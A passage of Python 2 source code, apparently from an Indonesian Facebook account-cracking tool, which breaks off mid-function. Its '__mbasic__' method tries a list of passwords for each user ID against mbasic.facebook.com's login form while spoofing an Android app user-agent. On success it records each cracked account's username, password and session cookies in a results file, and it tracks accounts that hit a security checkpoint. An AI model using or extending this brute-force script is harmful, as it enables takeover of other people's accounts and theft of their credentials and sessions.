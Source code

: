                 continue

        loop += 1

    def __mbasic__(self, user, __yan__):

        global ok,cp,loop

        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),

        sys.stdout.flush()

        for pw in __yan__:

            pw = pw.lower()

            try: os.mkdir('results')

            except: pass

            try:

            	_kontol = open('YNTKTS.txt', 'r').read()

            except (KeyError, IOError):

            	_kontol = 'Mozilla/5.0 (Linux; Android 11; Redmi 10 Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/92.0.4515.131 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/211.0.0.33.117 Android (30/11; 320dpi; 720x1448; realme; RMX2193; RMX2193; mt6768; fr_FR; 327976424;]'

            ses = requests.Session()

            ses.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})

            p = ses.get("https://mbasic.facebook.com")

            b = ses.post("https://mbasic.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})

            if "c_user" in ses.cookies.get_dict().keys():

            	kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)

                wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)

                ok.append(wrt)

                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            elif "checkpoint" in ses.cookies.get_dict().keys():

                try:

                    kontol = open('.memek.txt').read()

